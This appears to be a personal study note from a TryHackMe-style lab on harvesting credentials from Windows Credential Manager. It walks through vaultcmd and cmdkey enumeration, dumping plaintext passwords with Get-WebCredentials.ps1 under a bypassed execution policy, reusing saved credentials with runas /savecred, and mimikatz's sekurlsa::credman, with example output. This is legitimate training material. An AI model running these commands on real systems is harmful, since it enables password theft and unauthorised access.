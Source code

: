  Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

- Web credentials contain authentication details stored in Internet browsers or other applications.
- Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
- Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
- Certificate-based credentials: These are authentication details based on certificates.

Note that authentication details are stored on the user's folder and are not shared among Windows user accounts. However, they are cached in memory.

## Accessing Credential Manager
We can access the Windows Credential Manager through GUI (Control Panel -> User Accounts -> Credential Manager) or the command prompt. In this task, the focus will be more on the command prompt scenario where the GUI is not available.
	![](Pasted%20image%2020241124002432.png)
We will be using the Microsoft Credentials Manager `vaultcmd` utility. Let's start to enumerate if there are any stored credentials. First, we list the current windows vaults available in the Windows target.

Listing the Available Credentials from the Credentials Manager
```markup
C:\Users\Administrator>vaultcmd /list
Currently loaded vaults:
        Vault: Web Credentials
        Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        Vault: Windows Credentials
        Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```

By default, Windows has two vaults, one for Web and the other one for Windows machine credentials. The above output confirms that we have the two default vaults.

Let's check if there are any stored credentials in the Web Credentials vault by running the `vaultcmd` command with `/listproperties`.

Checking if there Are any Stored Credentials in the "Web Credentials."
```markup
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```

The output shows that we have one stored credential in the specified vault. Now let's try to list more information about the stored credential as follows,

Listing Credentials Details for "Web Credentials"
```markup
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```

## Credential Dumping
The VaultCmd is not able to show the password, but we can rely on other PowerShell Scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1), which is already included in the attached VM.

Ensure to execute PowerShell with bypass policy to import it as a module as follows:

Getting Clean-text Password from Web Credentials
```markup
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

The output shows that we obtained the username and password for accessing the internal application.

## RunAs
An alternative method of taking advantage of stored credentials is by using RunAs. RunAs is a command-line built-in tool that allows running Windows applications or tools under different users' permissions. The RunAs tool has various command arguments that could be used in the Windows system. The `/savecred` argument allows you to save the credentials of the user in Windows Credentials Manager (under the Windows Credentials section). So, the next time we execute as the same user, runas will not ask for a password.

Let's apply it to the attached Windows machine. Another way to enumerate stored credentials is by using `cmdkey`, which is a tool to create, delete, and display stored Windows credentials. By providing the `/list` argument, we can show all stored credentials, or we can specify the credential to display more details `/list:computername`.

```
C:\Users\thm>cmdkey /list 
Currently stored credentials:
 Target: Domain:interactive=thm\thm-local
 Type: Domain Password 
 User: thm\thm-local
```

The output shows that we have a domain password stored as the `thm\thm-local` user. Note that stored credentials could be for other servers too. Now let's use runas to execute Windows applications as the `thm-local` user. 

Run CMD.exe As a User with the /savecred argument
```markup
C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
```

A new cmd.exe pops up with a command prompt ready to use. Now run the whoami command to confirm that we are running under the desired user.

## Mimikatz
Mimikatz is a tool that can dump clear-text passwords stored in the Credential Manager from memory. The steps are similar to those shown in the previous section (Memory dump), but we can specify to show the credentials manager section only this time.

Dumping Memory for Credentials Manager
```markup
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

**Note:**
	The techniques discussed in this task also could be done through other tools such as Empire, Metasploit, etc..

## Example
- Listing the Available Credentials from the Credentials Manager
	![](Pasted%20image%2020241124013431.png)

- Checking if there Are any Stored Credentials in the "Web Credentials."
	![](Pasted%20image%2020241124013616.png)
- Listing Credentials Details for "Web Credentials" // '' Windows Credentials''
	![](Pasted%20image%2020241124013828.png)
- Getting Clean-text Password from Web Credentials
	![](Pasted%20image%2020241124014259.png)
- Dumping Memory for Credentials Manager using Mimikatz
	![](Pasted%20image%2020241125155605.png)
- Run CMD.exe As a User with the /savecred argument	
	  ![](Pasted%20image%2020241124015046.png)![](Pasted%20image%2020241124015200.png)